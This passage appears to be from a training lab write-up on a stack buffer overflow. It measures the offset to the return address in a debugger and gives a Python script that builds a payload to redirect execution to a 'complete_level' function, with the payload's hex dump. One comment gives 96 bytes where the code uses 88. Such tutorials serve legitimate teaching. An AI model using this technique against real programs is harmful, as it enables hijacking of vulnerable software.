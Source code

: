 The first thing we will see is our <mark style="color:yellow;">buffer address --</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0x7fffffffded0`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">(2)</mark>. We will want to ultimately subtract this from the address where our <mark style="color:yellow;">return address</mark> is being stored -- <mark style="color:yellow;">`0x7fffffffdf28`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">(1)</mark>.

Note: However, you are going to see <mark style="color:yellow;">`0x7fffffffdf20`</mark><mark style="color:yellow;">. This is because we add 8 to it and it will become</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0x7fffffffdf28`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">because that is that is the address of the 8 bytes before the location where the return address is being stored.</mark>

<figure><img src="../../../.gitbook/assets/image (15).png" alt="" width="290"><figcaption></figcaption></figure>

Here, we can see our padding required for our exploit which is 58 in hex and 88 in decimal:

```python
padding = b'A'*88
```

## `exploit.py`

Time to start breaking stuff:

```python
from pwn import *
import sys

padding = b'A'*88

sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(b"\xa9\x51\x55\x55\x55\x55\x00\x00")

# How does target binary consume data?
# Where does the data go in memory (on the stack)?
# How much data do we need to get to return address? -- How far is buffer from return address. 96 bytes
# Where do we want to divert execution to? -- In this case complete_level. If we wanted it to be a reverse shell it would be the start of our buffer.
# complete_level address 0x5555555551a9
```

We now want to send the output of our `exploit.py` script to a file called `exploit`:

```
python3 exploit.py > exploit
```

Examining exploit:

```
xxd exploit

00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 a951 5555 5555 0000  AAAAAAAA.QUUUU..
```
